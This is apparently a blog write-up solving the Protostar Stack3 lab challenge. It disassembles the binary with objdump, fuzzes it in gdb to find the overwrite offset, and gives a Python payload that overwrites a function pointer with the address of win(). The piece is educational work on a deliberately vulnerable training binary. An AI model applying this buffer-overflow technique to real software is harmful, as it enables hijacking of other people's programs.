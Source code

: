 ```yaml
---
title: Protostar - Stack 3
date: 2024-02-14 18:32:00
categories: [binary-exploitation, protostar]
tags: [protostar, binary-exploitation, stack3]
---
```


# Conquering Stack3 at Protostar Machine
Hello Hackers ! , Today is the day I continue on my journey to conquer the [Stack3](https://exploit.education/protostar/stack-three/) binary. on [Protostar](https://exploit.education/protostar) machine.

This challenge requiring us to Redirect Execution to call function called `win` defined in the code useing through exploitation of stack-bufferoverflow.

## **Challenge Overview**
- **Challenge Name:** [Stack3](https://exploit.education/protostar/stack-three/)
- **Machine:** [Protostar](https://exploit.education/protostar)


### Step 1: Explore Binary
- let,s run `/opt/protostar/bin/stack3` binary
![Stack3 Explore](/assets/img/protostar/stack3-explore.png)

Hmm there is input ... Hmmm i think i know this function which prompt input XD .. , but iam not sure for now ..

### Step 2: Analysis

disassemble `main` function

```sh
objdump -M intel -d /opt/protostar/bin/stack3 | grep '<main>' -A 20
```
get  address of `win` function

```sh
objdump -M intel -d /opt/protostar/bin/stack3 | grep '<win>'
```
![Stack3 Analysis](/assets/img/protostar/stack3-analysis.png)

1. Function Prologue:
- `push ebp`  Save the base pointer.
- `mov ebp, esp`  Set up a new base pointer.
- `and esp, 0xfffffff0` Align the stack.
- `sub esp, 0x60` Allocate space for local variables.
2. Variables
`mov DWORD PTR [esp+0x5c],0x0` : Assign Local Variable `[esp+0x5c]` at to 0  
3. Function Calls
- `call 0x08048330 gets@plt` call to function `gets` Oh there the function what i think it used for you prompt input XD
- `call   8048350 <printf@plt>` call to function `print`
- `call eax`  call to function address at eax`
4. Conditional Check
- `cmp    DWORD PTR [esp+0x5c],0x0` if local variable at `[esp+0x5c]` still equal 0
- `je     8048477 <main+0x3f>` then `jmp` to `0x08048477` which is the end of fucnction and return 

5. Function Pointer : asseign address of `[esp+0x5c]` if it wasn,t zero to `eax` and then call `eax`
- `mov    eax,DWORD PTR [esp+0x5c]` Move function pointer to `eax`
- `call eax` call function pointer

6. `win` Function address is at `0x08048424`

### Step 3: Debugging

1. create fuzz script at `~/fuzz.py` contains:
```py
fuzz="AAAABBBBCCCCDDDDEEEEFFFFGGGGHHHHIIIIJJJJKKKKLLLLMMMMNNNNOOOOPPPPQQQQRRRRSSSSTTTTUUUUVVVVWWWWXXXXYYYYZZZZ"
print(fuzz)
```
2. debug binary with gdb and disassemble main 
3. break point at moveing `cmp [esp+0x1c],0`
4. run binary with stdin from output of running `~/fuzz.py`
5. check fuzz value at pointer `esp+0x1c`

![Stack3 Debug](/assets/img/protostar/stack3-gdb-debug.png)

and we found value at pointer `[esp+0x5c]` `0x51515151` with is `QQQQ` as ascii representation.. Hmmmm Now it will be everything going easy !

![Stack3 Found Offset](/assets/img/protostar/stack3-gdb-found-offset.png)

### Step 4: Crafting Solution

okay let,s update our script: `~/fuzz.py`
```py
fuzz="AAAABBBBCCCCDDDDEEEEFFFFGGGGHHHHIIIIJJJJKKKKLLLLMMMMNNNNOOOOPPPP"
esp_plus_5c="\x24\x84\x04\x08" # represent 0x08048424 on little endian machines. 0x08048424 is address of win function
print(fuzz+esp_plus_5c)
```
- now esp+0x5c will contain `0x08048424` which is  address of win function and it will moved later to `eax` then our program call `eax` which call function pointer `win` 

- and when run program with our script output as strin for program ,  function `win` will be called ! 

![Stack3 Solved](/assets/img/protostar/stack3-solved.png)

Oh it Works Again !,  Hack the planet XD ..

